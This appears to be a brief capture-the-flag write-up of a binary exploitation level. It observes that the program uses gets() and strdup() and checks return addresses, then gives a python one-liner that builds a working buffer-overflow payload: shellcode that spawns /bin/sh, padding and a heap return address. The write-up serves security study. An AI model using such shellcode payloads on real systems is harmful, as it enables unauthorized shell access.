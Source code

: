 # Level2

When we take a look at the [decom](./level2_decomp.c), we notice the use of `gets()` a line to check if an address is located in the `0xb0000000` range.
We can also see a call to `strdup()`.

```bash
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"' > /var/crash/tmp.txt
```

